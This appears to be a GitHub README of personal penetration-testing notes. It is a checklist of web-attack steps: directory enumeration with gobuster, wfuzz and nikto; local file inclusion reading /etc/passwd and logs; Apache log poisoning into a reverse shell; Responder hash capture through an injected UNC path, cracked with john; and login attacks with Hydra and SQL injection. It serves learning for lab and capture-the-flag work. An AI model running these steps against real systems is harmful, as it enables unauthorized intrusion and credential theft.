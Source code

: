 # Zero-to-Hero-Pen-Testing-Notes-

1.Always maunally ennumerate and check the source code control+u/ Check /robots.txt /sitemap.xml\
2.gobuster dir -u http://$IP:PORT -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt\    -b (for bad servercode) -f (add this flag if gobuster is not returing any results for a long time) \
2.5 wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --sc 200 http://$IP/FUZZ \
3. nikto -h $IP 
4. If you do not find any specific directory add the -f flag to go buster and rerun\
5. If you find some directory and stuck  make sure to run gobuster again with the new directory i.e http:\\$IP/newDirectory  
6.

#Possible web vulnerabilities
## LFI
1. LocalFile Inclusion: We can log poision if linux based or try remote access control if Window
2. Check links ending with ?file=index.php ?book=  (Possible vulnerabilities in source code)
3. book= ../../../../etc/passwd   (Hosting on **Window or apache )
4. ../../../../var/www/html/index.php  html to confirm log poisoning 
5. Add  ../ ../../../../ and check if the following following files exists.
6. /etc/passwd\ /var/log/mail/USER\  /var/log/apache2/access.log\  /proc/self/environ\  /tmp/sess_ID\ /var/lib/php5/sess_ID\ /var/log/auth/log\  
7. /windows/system32/drivers/etc/hosts (for **window host)\  Go to step 12 
8. Now that we have confirmed LFI vulnerablity, lets log poision ../../../../var/log/apache2/access.log via invalid connection request.
9. Connect to nc -nv $IP port. and insert commandline exeuction payload (This depends on what techonology it is using. php ..etc)
10. check for sucessful log poisioning ../../../../var/log/apache2/access.log&cmd=i.
11. If you receive command execution, we will insert a reversshell via url encoding. Done.
12. Use responder to capture. sudo python3 Responder.py -I tun0. inject file=//$MyIP/testShare in the url. Use john the ripper to match hash. 
13. john -w=/usr/share/wordlists/rockyou.txt hash.txt
 

##Login page
1. Always check for default credentials
2. SQL injection
3. Burpite suite brute force, Hydra (use with caution can be locked out) 
4. Searchsploit Any version info of the login page? ex: pfsense 2.3.2

##XSS
